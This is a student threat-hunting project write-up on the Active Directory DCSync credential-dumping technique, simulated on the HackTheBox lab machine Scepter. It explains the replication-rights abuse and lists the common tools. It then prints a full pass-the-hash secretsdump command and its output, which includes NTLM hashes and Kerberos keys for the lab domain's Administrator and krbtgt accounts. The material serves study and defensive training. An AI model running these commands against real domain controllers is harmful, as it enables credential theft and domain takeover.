

# DCSync
Week 6 – ATT&CK Framework
-------------------------

**Project Topic:** Threat Hunting for Active Directory Attacks   
**Technique Studied:** T1003.006 – OS Credential Dumping: DCSync   
**Tactic:** Credential Access (TA0006)   
**Simulation Platform:** HackTheBox – Scepter [https://app.hackthebox.com/machines/Scepter](https://app.hackthebox.com/machines/Scepter)

1\. Technique Overview
----------------------

DCSync abuses a legitimate Active Directory feature – the Directory Replication Service Remote Protocol (MS-DRSR) – that Domain Controllers normally use to synchronize data between each other. An attacker holding the `Replicating Directory Changes` and `Replicating Directory Changes All` extended rights can call the same `DsGetNCChanges` function a real DC would call, and request password hash data for any account in the domain, including the `krbtgt` account used to sign all Kerberos tickets

**Tools commonly used:** Mimikatz (`lsadump::dcsync`), Impacket (`secretsdump.py`), PowerSploit (`Invoke-DCSync`)

2\. Simulation – HackTheBox: Scepter
------------------------------------


### Path to DCSync Privileges

On Scepter, DCSync privileges were obtained as the final step of a longer privilege escalation chain involving ACL abuse and an ADCS ESC14 misconfiguration, ultimately compromising an account (`P.ADAMS`) that held `Replicating Directory Changes` and `Replicating Directory Changes All` rights

### Executing DCSync

With `P.ADAMS`'s credentials obtained, DCSync was executed:



```text-plain
impacket-secretsdump scepter.htb/p.adams@dc01.scepter.htb -hashes ':1b925c524f447bb821a8789c4b118ce0' -dc-ip 10.129.244.44                
Impacket v0.14.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a291ead3493f9773dc615e66c2ea21c4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c030fca580038cc8b1100ee37064a4a9:::
scepter.htb\d.baker:1106:aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce:::
scepter.htb\a.carter:1107:aad3b435b51404eeaad3b435b51404ee:2e24650b1e4f376fa574da438078d200:::
scepter.htb\h.brown:1108:aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c:::
scepter.htb\p.adams:1109:aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0:::
scepter.htb\e.lewis:2101:aad3b435b51404eeaad3b435b51404ee:628bf1914e9efe3ef3a7a6e7136f60f3:::
scepter.htb\o.scott:2102:aad3b435b51404eeaad3b435b51404ee:3a4a844d2175c90f7a48e77fa92fce04:::
scepter.htb\M.clark:2103:aad3b435b51404eeaad3b435b51404ee:8db1c7370a5e33541985b508ffa24ce5:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:0a4643c21fd6a17229b18ba639ccfd5f:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:cc5d676d45f8287aef2f1abcd65213d9575c86c54c9b1977935983e28348bcd5
Administrator:aes128-cts-hmac-sha1-96:bb557b22bad08c219ce7425f2fe0b70c
Administrator:des-cbc-md5:f79d45bf688aa238
krbtgt:aes256-cts-hmac-sha1-96:5d62c1b68af2bb009bb4875327edd5e4065ef2bf08e38c4ea0e609406d6279ee
krbtgt:aes128-cts-hmac-sha1-96:b9bc4dc299fe99a4e086bbf2110ad676
krbtgt:des-cbc-md5:57f8ef4f4c7f6245
<SNIP>
```